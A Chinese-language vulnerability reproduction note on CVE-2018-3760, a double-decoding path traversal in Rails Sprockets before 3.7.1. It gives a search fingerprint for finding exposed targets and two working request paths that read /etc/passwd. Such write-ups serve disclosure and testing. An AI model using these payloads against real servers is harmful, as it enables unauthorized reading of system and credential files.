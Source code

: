 # Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

```
Sprockets < 3.7.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](images/202206281114422.png)

先获取绝对路径

```
/assets/file:%2f%2f/etc/passwd
```

![image-20220628111516877](images/202206281115997.png)

再利用POC读取文件

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![image-20220628111532098](images/202206281115231.png)